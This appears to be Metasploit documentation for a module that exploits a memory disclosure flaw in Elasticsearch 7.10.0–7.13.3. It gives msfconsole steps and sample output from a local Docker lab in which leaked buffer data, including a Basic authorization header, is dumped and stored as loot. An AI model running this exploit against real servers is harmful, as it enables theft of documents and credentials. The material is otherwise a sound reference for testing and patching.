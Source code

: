 ## Vulnerable Application

This module exploits a memory disclosure vulnerability in Elasticsearch
7.10.0 to 7.13.3 (inclusive). A user with the ability to submit arbitrary
queries to Elasticsearch can generate an error message containing previously
used portions of a data buffer.
This buffer could contain sensitive information such as Elasticsearch
documents or authentication details. This vulnerability's output is similar
to heartbleed.

### Docker Install

`docker run -p 9200:9200 -e "discovery.type=single-node" elasticsearch:7.13.2`

This will start a docker instance, however it will most likely on return
back empty memory data, or your own query. Running the
`elasticsearch_enum` module with good or bad credentials will generate
more interesting data.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/elasticsearch_memory_disclosure`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of memory.

## Actions

### SCAN

This action will dump the memory and print the leaked bytes count. Set `verbose`
to true to view the data. Default

### DUMP

This action will dump the memory and print the leaked bytes count. Set `verbose`
to true to view the data. The output is then stored as loot.

## Options

### LEAK_COUNT

How many times to run the memory dumper. Defaults to `1`

## Scenarios

### Elasticsearch 7.13.2 on Docker

The module is run with action `SCAN`, and `leak_count` set to `2` to have a better chance
of leaking interesting information.

```
msf6 > use auxiliary/scanner/http/elasticsearch_memory_disclosure
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set leak_count 2
leak_count => 2
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > run

[*] Leaking response #1
[*] Leaking response #2
[+] Leaked 2106 bytes
[*] Printable info leaked:
HTTP/1.1 200 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@.: 2....@.........................................................................................................................................................................................................................................................."[truncated 1048076 bytes].HTTP/1.1 200 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@.: 2....@.........................................................................................................................................................................................................................................................."[truncated 1048076 bytes]
..�aT�!...00 Internal Server Error....User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0..Authorization: Basic YWRtaW46MTIzNDU2.........................................................................................х���...00 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@..."[truncated 1048076 bytes]...�aT�!...00 Internal Server Error....User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0..Authorization: Basic YWRtaW46MTIzNDU2.........................................................................................х���...00 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@..."[truncated 1048076 bytes]
[*] Auxiliary module execution completed
```

In this example, we set the action to `DUMP` to store the data as well.

```
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set action dump
action => dump
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > run

[*] Leaking response #1
[*] Leaking response #2
[+] Leaked 2088 bytes
[+] Elasticsearch memory data stored in /root/.msf4/loot/20230825124508_default_127.0.0.1_elasticsearch.me_033879.bin
[*] Printable info leaked:
HTTP/1.1 400 Bad Request..: 127.0.0.1:9200..User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13.4; rv:109.0) Gecko/20100101 Firefox/114.0..Content-Type: application/json..Content-Length: 2....@................................................................................................................................................................................................................................................................................................................."[truncated 1048076 bytes].HTTP/1.1 400 Bad Request..: 127.0.0.1:9200..User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13.4; rv:109.0) Gecko/20100101 Firefox/114.0..Content-Type: application/json..Content-Length: 2....@................................................................................................................................................................................................................................................................................................................."[truncated 1048076 bytes].�........l�Kn�0.D.��\�`%�&"Q�H�M�.�.�Pd��p0�O���Q.�B�.R�'j/w.������ڈāq�.�[8.��� ��yC]@j"Ͼ�,�� 0...�.�3�-��<��.H�\#.�:�X�.3.��]P�W�uCG��gG��c�N�.��z��y8.X2���B.�����.|���C.�w�.�s�'O��Z$1@�[���<.��?...��nyone. See https://www.elastic.co/guide/en/elasticsearch/reference/7.13/security-minimal-setup.html to enable security."..content-type: application/json; charset=UTF-8..content-encoding: gzip..: none..Sec-Fetch-Mode: cors..Sec-Fetch-Dest: empty..Accept-Encoding: gzip, deflate, br..Accept"[truncated 1048076 bytes]..�........l�Kn�0.D.��\�`%�&"Q�H�M�.�.�Pd��p0�O���Q.�B�.R�'j/w.������ڈāq�.�[8.��� ��yC]@j"Ͼ�,�� 0...�.�3�-��<��.H�\#.�:�X�.3.��]P�W�uCG��gG��c�N�.��z��y8.X2���B.�����.|���C.�w�.�s�'O��Z$1@�[���<.��?...��nyone. See https://www.elastic.co/guide/en/elasticsearch/reference/7.13/security-minimal-setup.html to enable security."..content-type: application/json; charset=UTF-8..content-encoding: gzip..: none..Sec-Fetch-Mode: cors..Sec-Fetch-Dest: empty..Accept-Encoding: gzip, deflate, br..Accept"[truncated 1048076 bytes]
[*] Auxiliary module execution completed
```
